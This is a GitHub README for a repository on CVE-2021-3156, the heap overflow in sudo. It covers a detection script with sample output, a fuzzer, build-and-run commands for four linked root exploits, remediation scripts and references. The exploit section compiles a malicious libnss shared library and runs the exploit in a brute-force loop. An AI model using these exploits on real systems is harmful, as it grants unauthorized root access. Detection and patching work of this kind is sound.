 # CVE-2021-3156 README.md

## CVE-2021-3156-POC
    chmod +x CVE-2021-3156-POC.sh
    ./CVE-2021-3156-POC.sh
    
        This script (v1.0) is primarily designed to detect CVE-2021-3156 on supported
        Red Hat Enterprise Linux systems and kernel packages.
        Result may be inaccurate for other RPM based systems.

        Detected 'sudo' package: sudo-1.8.23-10.el7.x86_64
        This sudo version is vulnerable.
        Follow https://access.redhat.com/security/vulnerabilities/RHSB-2021-002 for advice.


## CVE-2021-3156_fuzzy
    pip3 install -y requirements.txt
    python3 CVE-2021-3156_fuzzy.py
    
## exploit
#### exploit0
    gcc -s -o exploit exploit.c -Wall -Werror -Wextra
    mkdir libnss_X
    gcc -fpic -shared -nostdlib -o libnss_X/X.so.2 call.c
    for i in {1..12800}; do echo -n "try number $i "; ./exploit; done
Source: https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156

#### exploit1
	make
	./sudo-hax-me-a-sandwich

#### exploit2
	chmod +x exp.sh
	./exp.sh
Source: https://github.com/ltfafei/CVE-Exploits/tree/master/CVE-2021-3156

#### exploit3    
	gcc exploit.c -o exploit
	cp /etc/passwd /opt/passwd
	./exploit
Source: https://github.com/stong/CVE-2021-3156

## Repaire_CVE-2021-3156
#### Remission_CVE-2021-3156.sh
    chmod +x Remission_CVE-2021-3156.sh  && ./Remission_CVE-2021-3156.sh

#### All_Linux_upgrade-Sudo_for-cve-2021-3156-repaire.sh
    chmod +x All_Linux_upgrade-Sudo_for-cve-2021-3156-repaire.sh
    ./All_Linux_upgrade-Sudo_for-cve-2021-3156-repaire.sh
    
        ...
        **********************************************

        Sudo version 1.8.23

        Your Sudo upgrade success!
        **********************************************
        [root@server ~]# sudo -V |grep "Sudo" |sed -n '1p'
          Sudo version 1.9.5p2
        [root@server ~]# 

Source:
    https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
    https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
    https://access.redhat.com/sites/default/files/cve-2021-3156--2021-01-26-1453.sh
    https://twitter.com/gf_256/status/1355354178588180481
    
Details of the article for CVE-2021-3156: https://blog.csdn.net/qq_41490561/article/details/113437166
